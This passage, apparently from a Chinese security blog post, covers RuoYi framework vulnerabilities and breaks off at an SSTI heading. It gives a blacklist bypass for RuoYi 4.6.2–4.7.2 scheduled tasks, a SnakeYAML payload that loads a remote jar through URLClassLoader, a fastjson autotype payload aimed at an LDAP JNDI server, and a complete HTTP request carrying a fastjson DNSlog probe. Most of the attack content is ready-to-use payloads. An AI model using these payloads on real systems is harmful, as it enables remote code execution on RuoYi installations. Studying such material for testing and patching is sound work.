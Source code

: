 ```  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNjxXOfNQJjDFALeqBS2ibk62AnVNOC0zV89L9aOsUsXJZaluUZ5xs4ug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNuVuibkiaQ200MSmYLib42Z0fk1PkqlkFlZOmn9BN6f2bDd4m135nicmdBw/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
1、升级版本。  
## 0x07 bypass  
### 版本4.6.2<=Ruoyi<4.7.2  
  
这个版本采用了黑名单限制调用字符串  
- 定时任务屏蔽ldap远程调用  
- 定时任务屏蔽http(s)远程调用  
- 定时任务屏蔽rmi远程调用  
**Bypass**  
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式例如:  
```
org.yaml.snakeyaml.Yaml.load(’!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“**h’t’t’p’:**//127.0.0.1:88/yaml-payload.jar”]]]]’)
```  
# 0x07 fastjson反序列化  
  
关注两个函数 parse 和 parseObject JSONObject.parse  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNzpJg03M1syXM39QM1sA8HQ1lCBHcUBAm1O5ictrm9NOGJTibbSSLyvbA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNiaN13WicFvqooicgfGO7AiclYotzfrKmnicPcPItPhhq1Cqftjw4Zt96Whw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN2lQHjJVia1mmibjyONxl0hlOIurMk8M8YULtjjTic4ibGvG4ENI9eWS8MA/640?wx_fmt=png&from=appmsg "")  
  
  
开启 autotype  
```
params[@type]=org.apache.shiro.jndi.JndiObjectFactory&params[resourceName]=ldap://192.168.12.76:1389/09rlhv
```  
## ruoyi4.2.0  
  
初看这个数据包一堆参数，有点复杂，根据之前的分析梳理一下，需要的参数是  
tplCategory  
为tree  
，才能走到fastjson漏洞点  
,认真梳理一下需要的参数，发现还需要treeCode&treeParentCode  
参数，这块代码中全局搜索提示的缺少的内容的中文名称即可发现参数名称，填写上即可。  
  
最终简化后的数据包如下  
```
POST /tool/gen/edit HTTP/1.1Host: 172.16.0.66User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36Referer: http://172.16.0.66/tool/gen/edit/6Cookie: JSESSIONID=c229803b-e147-4853-ae79-df7e04dcd338X-Requested-With: XMLHttpRequestAccept: application/json, text/javascript, */*; q=0.01Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8Origin: http://172.16.0.66Accept-Language: zh-CN,zh;q=0.9Content-Length: 3610tableName=111111&tableComment=111111&className=111111&functionAuthor=111111&&columns[0].javaType=Long&columns[0].javaField=infoId&&tplCategory=tree&treeCode=111111&treeParentCode=111111&packageName=111111&moduleName=111111&businessName=111111&functionName=111111&params[treeCode]=111111&params[treeParentCode]=1&params[treeName]={"@type":"java.net.Inet4Address","val":"11.hb4r0s.dnslog.cn"}
```  
# 0x08 SSTI模版注入漏洞  
#### 漏洞版本  
```